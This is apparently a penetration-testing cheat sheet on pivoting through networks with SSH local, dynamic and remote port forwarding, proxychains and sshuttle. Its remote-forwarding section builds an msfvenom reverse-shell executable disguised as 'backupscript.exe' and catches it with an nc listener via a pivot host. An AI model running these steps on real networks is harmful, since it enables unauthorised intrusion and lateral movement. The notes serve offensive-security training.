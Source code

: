We can use this to access internal ports on servers if we have SSH access

Local Port Forwarding
```bash
# example of connecting KALI port 8000 to VICTIM port 8080
ssh -L 8000:localhost:8080 <user>@<ip_address>

# Forward multiple ports
ssh -L 8000:localhost:8000 -L 1234:localhost:3306 <user>@<ip_address>
```

Dynamic Port Forwarding (SOCKS)
```bash
# check /etc/proxychains.conf
...SNIP...
socks4 	127.0.0.1 9050

# example of dynamic port forward over 9050
ssh -D 9050 <user>@<victim_ip>

# running commands over proxy
proxychains <cmds>
```

Remote/Reverse Port Forwarding
```bash
# Example of reverse shell THROUGH a pivot point
# Machines
Attacker box # us
Pivot box    # 2+ interfaces
Internal box # internal only

# Initial dynamic port forward
ssh -D 9050 <user>@<pivot_box_ip>

# Connection to internal box
proxychains xfreerdp /v:<internal_box_ip> ...

# Setup SSH remote port forwarding to forward connections from pivot_box:8080 to attacker_box:4444
ssh -R <pivot_box_INTERNAL_IP>:8080:0.0.0.0:4444 <user>@<pivot_box_ip>

# Create rev shell exe file
msfvenom -p windows/x64/shell_reverse_tcp lhost=<InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

# Transfer over -- various ways

# Set up listener on attack box
nc -lvnp 4444

# Fire reverse shell on internal box
.\backupscript.exe
```

Sshuttle
	Sshuttle is another tool written in Python which removes the need to configure proxychains
```bash
# install
sudo apt-get install sshuttle

# connecting and adding routes
sudo sshuttle -r <user>@<ip_address> <ip_subnet/CIDR> -v 

now run commands against internal IPs without need for proxychains
```